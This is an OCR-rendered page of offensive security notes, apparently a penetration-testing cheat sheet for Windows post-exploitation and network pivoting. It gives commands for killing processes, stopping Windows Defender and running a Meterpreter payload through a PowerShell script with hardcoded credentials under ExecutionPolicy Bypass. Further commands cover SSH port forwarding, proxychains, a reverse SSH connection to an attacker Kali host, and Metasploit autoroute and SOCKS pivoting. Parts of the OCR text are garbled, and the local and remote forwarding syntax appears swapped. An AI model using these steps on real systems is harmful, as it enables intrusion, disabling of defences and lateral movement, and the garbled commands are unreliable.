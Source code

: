> $ dir /s \*log\*

Process

> $ tasklist  
> $ taskkill /F /PID pid\_number

Disable windows defender:

> $ sc stop WinDefend

UAC bypass:

> $ echo &gt; $username = "alice" &gt; run.ps1 $ echo &gt; $secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force &gt;&gt; run.ps1  
> echo &gt; $mycreds = New-Object System.Management.Automation.PSCredential \(" &gt; $username", &gt; $secpasswd\) &gt;&gt; run.ps1 &gt; $ echo Start-Process veil\_meterpreter.bat -Credential \( &gt; $mycreds\) &gt;&gt; run.ps1

```text
> $ powershell -ExecutionPolicy Bypass -File run.ps1
```

## PIVOTING

Dynamic Port Forwading:

> $ SSH  
> ▪ ssh -D 9000 root@ &gt; $ip ▪ set proxychains.conf to 127.0.0.1 1080 ▪ proxy chains nc -nv 10.11.0.106 $ Reverse SSH from windows to my kali  
> ▪ systemctl start ssh.service  
> ▪putty.exe -ssh [root@10.11.0.106](mailto:root@10.11.0.106)

Local port forward:

```text
     > $  Explanation
         ▪ ssh -L 80:localhost:80 SUPERSERVER
         ▪ a connection made to the local port 80 is to be forwarded to port 80 on SUPERSERVER.

     > $  SSH
        ▪ ssh -R sourcePort:forwardToHost:onPort connectToHost
```

Remote port forward:

```text
      > $   Explanation
         ▪ ssh -R 80:localhost:80 tinyserver
         ▪ a connection made to the remote port 80 on tiny server is to be forwarded to port 80 on my localhost.

      > $   SSH
        ▪ ssh -L sourcePort:forwardToHost:onPort connectToHost
```

Metasploit:

> $ Dynamic Port Forwading  
> ▪ autoroute module  
> → set session to meterpreter session  
> ▪ socks4a module  
> → set srv port to \( no need to set host\)  
> ▪ set proxychains.conf to 127.0.0.1 1080

